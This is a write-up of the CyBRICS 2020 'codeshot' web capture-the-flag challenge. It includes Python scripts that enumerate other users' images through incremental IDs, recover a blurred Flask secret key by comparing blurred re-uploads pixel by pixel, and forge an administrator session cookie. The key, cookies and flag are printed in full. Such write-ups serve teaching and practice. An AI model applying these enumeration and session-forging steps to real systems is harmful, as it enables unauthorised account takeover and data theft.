






## The challenge description

It's a medium task, flagged by 9 teams during the CyBRICS 2020.

```
Author: Alexander Menshchikov (@n0str)

Our startup department recently came up with a new code embedding service. You can share your code in image format. Check it out now, maybe you can provide us some free pentest 😼: codeshot-cybrics2020.ctf.su/

Admin user has the flag in his private images.
```

## A little web challenge

So, first, we go to the website.

The website is very simple : one forms.
You enter your code, choose if it must be private (public by default), enter the "square" of blur, send it to the server. 

The request's body looks like this (blur the first letter of "import telebot") :

```
-----------------------------3774721316872016531394040701
Content-Disposition: form-data; name="code"

import telebot
-----------------------------3774721316872016531394040701
Content-Disposition: form-data; name="is_private"

1
-----------------------------3774721316872016531394040701
Content-Disposition: form-data; name="x"

0
-----------------------------3774721316872016531394040701
Content-Disposition: form-data; name="y"

0
-----------------------------3774721316872016531394040701
Content-Disposition: form-data; name="x_size"

1
-----------------------------3774721316872016531394040701
Content-Disposition: form-data; name="y_size"

1
-----------------------------3774721316872016531394040701--
```

The service generates this image at `http://codeshot-cybrics2020.ctf.su:80/uploads/<user_id>/<image_id>` : 


After some reuploads, we know that user and image id are incremental.
We can decode the JWT cookie :

```
python3 flask_session_cookie_manager3.py decode -c .eJwlzj0OwjAMQOG7eGaIf2I7vUyVxI5gbemEuDuVmN8bvg_s68jzCdv7uPIB-ytggxlN3FtdLXW4Ia1ZR1FaQ00EZRH7yhRFnirWtMUy7jiMMMR76W16n5MYhUv3u7r5HMaUOUpiBFf0VA4WjXBFo1pE-d6bBtyQ68zjr6kVvj-5xi51.XxyptA.ERtfI7PQVc8HeYMaWr7cSD7b3oQ
b'{"_fresh":true,"_id":"cd948895f9e6b8712fc5b062fb674414f238fee4[...]d3518e63d346dd861725046343096d","_user_id":"55"}
```

Let's start try if we can recover some public code images of other users.

A simple brute force script with Python3 and requests will be perfect (generated with ["Copy As Python-Requests"](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160) burp extension):

```python
import requests


cookies = {"session": ".eJwlzj0OwjAMQOG7eGaIf2I7vUyVxI5gbemEuDuVmN8bvg_s68jzCdv7uPIB-ytggxlN3FtdLXW4Ia1ZR1FaQ00EZRH7yhRFnirWtMUy7jiMMMR76W16n5MYhUv3u7r5HMaUOUpiBFf0VA4WjXBFo1pE-d6bBtyQ68zjr6kVvj-5xi51.XxyptA.ERtfI7PQVc8HeYMaWr7cSD7b3oQ"}
headers = {"User-Agent": "Mozilla/5.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"}

i = 0

for i in range(1,500):
 for u in range(1,500):
  url = "http://codeshot-cybrics2020.ctf.su:80/uploads/%s/%s" % (u,i) 
  r=requests.get(url, headers=headers, cookies=cookies)

  if r.status_code == 200:
   print("[+] User, image :",u,",",i)
   with open("./img/%s_%s.png" % (u,i),'wb') as f:
    f.write(r.content)
   break
```

We found 4 images from the user_id 1, the administrator :






The transcribed code ('_' represents blur):

```
from helpers import apply_blur_filter

app = Flask (__name__)
app.config['UPLOAD_FOLDER'] ___________'
app.config['SECRET_KEY'] = '___________9ftys7dfstf'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///db.sqlite'
app.config['MAX_CONTENT_LENGTH'] = 500 * 1024 # 500Kb

Bootstrap (app)
db = SQLAlchemy (app)

def apply_blur_filter(im, start=(0, 0), end=(1, 1), PIXELIZAT_______
 def make_one_square(img, old, row, col, size):
  try:
   npix = []
   for ni in range(row - PIXELIZATION, row + PIXELIZATION):
    for nj in range(col - PIXELIZATION, col + PIXELIZATION):

     if ni == col and nj == col: continue
     if ni < 0 or nj < 0: continue
     if ni >= size[1] or nj >= size[0]: continue

     npix.append(old[nj, ni])

   av_r = 0
   av_g = 0
   av_b = 0
   for r, g, b in npix:
    av_r += r
    av_g += g
    av_b += b
   av_r //= len(npix)
   av_g //= len(npix)
   av_b //= len(npix)
   img[col, row] = (av_r, av_g, av_b)
  except Exception as e:
   logging.error (e)
   logging.error (row)
   logging.error (col)
   logging.error (size)

 new_image = im.copy()
 old_image_pix = im.load()
 new_image_pix = new_image.load()

 for i in range(10 + start[0] * 12, 10 + end[0] * 12):
  for j in range(10 + start[1] * 10, 10 + end[1] * 10):
   make_one_square (new_image_pix, old_image_pix, i, j, size=new_image.size)
 return new_image
```

The script didn't find a 5th public image.


Ok, let's recap.

We have :  
- the administrator ID, `1` ;  
- a partial secret key ;   
- the blurring function code with some blanks.  

We have to find the flag inside admin's private images.  
We have to be the administrator.

So we must recover the full secret key to forge a good admin's JWT with [flask_session_cookie_manager](https://github.com/noraj/flask-session-cookie-manager). 

## "In the kingdom of the blind, the one-eyed is king"

Let's go unblur these lines :

```
app = Flask (__name__)
app.config['UPLOAD_FOLDER'] XXXXXXXXXX'
app.config['SECRET_KEY'] = 'XXXXXXXXXX9ftys7dfstf'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///db.sqlite'


def apply_blur_filter(im, start=(0, 0), end=(1, 1), PIXELIZATXXXXXXX

```


### The easy part

For the upload folder, I try something : `= 'uploads'`. (this comes from other challenges of the CyBRICS)

To verify it, we blur our code and check the result.
Spoiler alert, it's working (you can look up some rgb value with gimp).

```python
app = Flask (__name__)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['SECRET_KEY'] = '___________9ftys7dfstf'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///db.sqlite'
app.config['MAX_CONTENT_LENGTH'] = 500 * 1024 # 500Kb
```

The second easy part is `PIXELIZAT_______`.
It's an optional parameter (PIXELIZATION, why not ?) at the ending of the declaration :  `PIXELIZATION=_):`

Ok, `PIXELIZATION` is an integer parameter between  0 and 9.

If you do some test locally with the blurring function, you can find the value : `8`.

But we don't need this because here come the error of the filter.

### The Grid !

Let's start analysing the blur filter to understand why their filter is a bad idea and protect nothing (we take the max possible value for `PIXELIZATION`):

```python
def apply_blur_filter(im, start=(0, 0), end=(1, 1), PIXELIZATION=9):
 def make_one_square(img, old, row, col, size):
  try:
   npix = []
   for ni in range(row - PIXELIZATION, row + PIXELIZATION):
    for nj in range(col - PIXELIZATION, col + PIXELIZATION):

     if ni == col and nj == col: continue
     if ni < 0 or nj < 0: continue
     if ni >= size[1] or nj >= size[0]: continue

     npix.append(old[nj, ni])

   av_r = 0
   av_g = 0
   av_b = 0
   for r, g, b in npix:
    av_r += r
    av_g += g
    av_b += b
   av_r //= len(npix)
   av_g //= len(npix)
   av_b //= len(npix)
   img[col, row] = (av_r, av_g, av_b)
  except Exception as e:
   logging.error (e)
   logging.error (row)
   logging.error (col)
   logging.error (size)

 new_image = im.copy()
 old_image_pix = im.load()
 new_image_pix = new_image.load()

 for i in range(10 + start[0] * 42, 10 + end[0] * 42):
  for j in range(10 + start[1] * 10, 10 + end[1] * 10):
   make_one_square (new_image_pix, old_image_pix, i, j, size=new_image.size)
 return new_image
```

The algorithm takes the average RGB value of a square of pixels around the pixel to blur it.



The RGB value of the A pixel will be the average of all rgb value of gray pixels. The yellow pixels will be ignored.
That is interesting because the font size of codeshot is 10 pixels.

Conclusion : The first pixel column depends only on the preceding letter and the current letter.



As the filter is applied on a rectangle, we have to pay attention to the line above.
But we found the right combination, so we can start the brute force part.

We test each character to find the good one and repeat it 10 times.

The alphabet can be reduced to [a-z0-9] to make faster tests (based on the partial key).

```python
from PIL import Image
import requests

cookies = {"session": ".eJwlzj0OwjAMQOG7ZGaIY8c_vUyV2I5gbemEuDuVmN8bvk_Z15Hns2zv48pH2V9RtuJhpGp9WfJUgba8z8ptTRYioNVQVyYxoDOJscUSHDClQZCOOsx1uDcEwjr0rirqU7BlzpoQgR00GQOJI5RBWq_EeO_GUW7Idebx1zBZ-f4A6Egurg.XxyuGg._S-bIVLJ1xltFj2Be5YKPB_uxWE"}
headers_post = {"User-Agent": "Mozilla/5.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://codeshot-cybrics2020.ctf.su/profile", "Content-Type": "multipart/form-data; boundary=---------------------------3774721316872016531394040701", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
headers_get = {"User-Agent": "Mozilla/5.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
data = "-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"code\"\r\n\r\nfrom helpers import apply_blur_filter\r\n\r\napp = Flask (__name__)\r\napp.config['UPLOAD_FOLDER'] = 'uploads'\r\napp.config['SECRET_KEY'] = '%s'\r\napp.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///db.sqlite'\napp.config['MAX_CONTENT_LENGTH'] = 500 * 1024 # 500Kb\r\n\r\nBootstrap (app)\r\ndb = SQLAlchemy (app)\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"is_private\"\r\n\r\n1\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"x\"\r\n\r\n28\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"y\"\r\n\r\n3\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"x_size\"\r\n\r\n10\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"y_size\"\r\n\r\n2\r\n-----------------------------3774721316872016531394040701--\r\n"

alphabet = "0123456789abcdefghijklmnopqrstuvwxyz"
secret_key = '__________9ftys7dfstf'
sol = ""

chall = Image.open("chall.png")
chall_pix = chall.load()

while len(sol) < 10:
    for c in alphabet:

        tmp_secret_key = sol + c + secret_key[len(sol)+1:]

        print("[+] tmp_secret_key :",tmp_secret_key)

        response = requests.post("http://codeshot-cybrics2020.ctf.su:80/profile", headers=headers_post, cookies=cookies, data=data % tmp_secret_key)
        img_id = response.text.split('/uploads/649/')[-1].split('">')[0].strip()

        url = "http://codeshot-cybrics2020.ctf.su:80/uploads/649/" + img_id
        img = requests.get(url, headers=headers_get, cookies=cookies).content

        with open('tmp.png','wb') as f:
            f.write(img)

        img = Image.open('tmp.png')
        img_pix = img.load()

        for i in range(180,200,2):
            col = 10 + 10 * (28 + len(sol)) 
            if not chall_pix[col,i] == img_pix[col,i]:
                break
        else:
            sol += c
            break

print(sol)
```

And the secret key is : `jds89fysd79ftys7dfstf`

### The last step

Now, we just have to forge a valid admin JWT and play it to gather the flag image.

```
$ python3 flask_session_cookie_manager3.py encode -s 'jds89fysd79ftys7dfstf' -t "{'_fresh': True, '_id': 'cd948895f9e6b8712fc5b062fb674414f238fee4613c647969df73a1b721d48a0a9c8acc231430a8df7878cb732eeb0e1dd3518e63d346dd861725046343096d', '_user_id': '1'}"
.eJwlzjkOwjAQQNG7uKbwLJ4ll4lsz1jQJqRC3J1I1P8X71P2deT5LNv7uPJR9leUrcxwNvO2PGWYAq7ZRhVcQ5QZeCHZymQBmsLq4rGUOgxFCLZeu0_rcyIBU-12V1ObQwkzR02IoAaWQkEsESag2CoL3btLlBtynXn8NVC-P4t6Ljw.Xx0Fgw.qX_e32dIbiGtPG5tHqIupW13eko
```

And the flag : `cybrics{w0w_whythisfilterisnotalreadyinphotoshop}`


